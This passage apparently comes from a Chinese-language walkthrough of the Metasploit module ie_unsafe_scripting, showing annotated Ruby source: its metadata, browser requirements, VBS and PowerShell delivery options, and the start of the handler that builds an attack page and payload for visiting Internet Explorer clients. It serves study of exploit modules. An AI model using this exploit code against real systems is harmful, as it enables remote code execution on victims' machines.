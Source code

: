 ```
          [ 'URL', 'http://blog.invisibledenizen.org/2009/01/ieunsafescripting-metasploit-module.html' ],
          [ 'URL', 'http://support.microsoft.com/kb/870669']
        ],
        'DisclosureDate'      => 'Sep 20 2010',
        'Platform'            => 'win',
        
        # 浏览器的信息描述
        'BrowserRequirements' => {
          source:          'script',
          os_name:         OperatingSystems::Match::WINDOWS,
          ua_name:         HttpClients::IE,
          vuln_test:       VULN_CHECK_JS,
          vuln_test_error: 'WScript.Shell or Scripting.FileSystemObject not allowed by browser.'
        },
        'Arch'                => ARCH_X86,

        # 攻击目标为 Windows x86/x64 操作系统 
        'Targets'             =>
          [
            [ 'Windows x86/x64', {} ]
          ],
        
        # 默认选项设置
        'DefaultOptions'      =>
          {
            'HTTP::compression' => 'gzip'
          },
        'DefaultTarget'  => 0
      ))
 
    # 注册选项，存储相关的注册函数
    register_options(
        [
           OptBool.new('ALLOWPROMPT', [true, 'Allow exploit to ignore the protected mode prompt', false]),
           OptEnum.new('TECHNIQUE', [true, 'Delivery technique (VBS Exe Drop or PSH CMD)', 'VBS', ['VBS','Powershell']])
        ], self.class
    )
  end
```
紧接着上面的 Ruby 源码，这部分为 `ie_unsafe_scripting ` 的中间部分源码：
```
  # 监听攻击请求的 on_request_exploit 函数
  # 在生成特定的链接之后，需要进行监听等待目标靶机的 IE 浏览器访问生成页面
  def on_request_exploit(cli, request, browser)
    if has_protected_mode_prompt?(browser)
      print_warning("This target possibly has Protected Mode, exploit aborted.")
      send_not_found(cli)
      return
    end

    # 构建目标靶机访问的攻击页面
    var_shellobj = rand_text_alpha(rand(5)+5)

    p = regenerate_payload(cli)
    if datastore['TECHNIQUE'] == 'VBS'
      js_content = vbs_technique(var_shellobj, p)
    else
      js_content = psh_technique(var_shellobj, p)
    end

```